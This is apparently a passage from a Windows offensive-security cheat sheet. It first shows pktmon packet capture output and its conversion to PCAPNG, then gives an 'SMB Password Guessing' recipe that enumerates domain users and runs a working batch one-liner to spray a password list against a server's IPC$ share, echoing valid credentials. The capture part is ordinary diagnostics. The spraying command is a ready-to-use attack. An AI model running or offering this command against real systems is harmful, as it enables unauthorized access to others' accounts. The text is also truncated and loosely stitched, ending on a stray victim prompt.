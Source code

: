 C:\Users\RoseSecurity>pktmon start  --etw --log-mode real-time --packet-size 1500
Active measurement started.
Processing...

23:02:26.539704700 PktGroupId 562949953421500, PktNumber 1, Appearance 1, Direction Tx , Type Ethernet , Component 78, Edge 1, Filter 1, OriginalSize 66, LoggedSize 66
        40-EC-99-B9-17-25 > F0-B4-D2-5A-D3-E2, ethertype IPv4 (0x0800), length 66: 192.168.0.62.65066 > 172.217.2.115.443: Flags [S], seq 1995496356, win 64240, options [mss 1460,nop,wscale 8,nop,nop,sackOK], length 0
23:02:26.539709400 PktGroupId 562949953421500, PktNumber 1, Appearance 2, Direction Tx , Type Ethernet , Component 31, Edge 1, Filter 1, OriginalSize 66, LoggedSize 66
        40-EC-99-B9-17-25 > F0-B4-D2-5A-D3-E2, ethertype IPv4 (0x0800), length 66: 192.168.0.62.65066 > 172.217.2.115.443: Flags [S], seq 1995496356, win 64240, options [mss 1460,nop,wscale 8,nop,nop,sackOK], length 0
23:02:26.539712200 PktGroupId 562949953421500, PktNumber 1, Appearance 3, Direction Tx , Type Ethernet , Component 32, Edge 1, Filter 1, OriginalSize 66, LoggedSize 66
        40-EC-99-B9-17-25 > F0-B4-D2-5A-D3-E2, ethertype IPv4 (0x0800), length 66: 192.168.0.62.65066 > 172.217.2.115.443: Flags [S], seq 1995496356, win 64240, options [mss 1460,nop,wscale 8,nop,nop,sackOK], length 0
23:02:26.539714000 PktGroupId 562949953421500, PktNumber 1, Appearance 4, Direction Tx , Type Ethernet , Component 33, Edge 1, Filter 1, OriginalSize 66, LoggedSize 66
        40-EC-99-B9-17-25 > F0-B4-D2-5A-D3-E2, ethertype IPv4 (0x0800), length 66: 192.168.0.62.65066 > 172.217.2.115.443: Flags [S], seq 1995496356, win 64240, options [mss 1460,nop,wscale 8,nop,nop,sackOK], length 0
23:02:26.599504500 PktGroupId 1688849860264106, PktNumber 1, Appearance 1, Direction Rx , Type Ethernet , Component 33, Edge 1, Filter 1, OriginalSize 66, LoggedSize 66
        F0-B4-D2-5A-D3-E2 > 40-EC-99-B9-17-25, ethertype IPv4 (0x0800), length 66: 172.217.2.115.443 > 192.168.0.62.65066: Flags [S.], seq 546326696, ack 1995496357, win 60720, options [mss 1380,nop,nop,sackOK,nop,wscale 8], length 0
23:02:26.599510100 PktGroupId 1688849860264106, PktNumber 1, Appearance 2, Direction Rx , Type Ethernet , Component 32, 
... <TRUNCATED FOR BREVITY>....
```

Converting to PCAPNG

```
C:\Users\RoseSecurity>pktmon pcapng PktMon1.etl --out RoseSecurity-pktmon.pcapng
Processing...

Packets total:     60
Packet drop count: 0
Packets formatted: 60
Formatted file:    RoseSecurity-pktmon.pcapng
```
## SMB Password Guessing

Create list of domain users

```
C:\> net user /domain > users.txt
```

Create password list 

```
C:\> notepad pass.txt
```

Start spraying!

```
C:\> @FOR /F %p in (pass.txt) DO @FOR /F %n in (users.txt) DO @net use \\SERVERIP\IPC$ /user:DOMAIN\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\SERVERIP\IPC$ > NUL
```

```

[VICTIM]: PS C:\Users\Victim\Documents>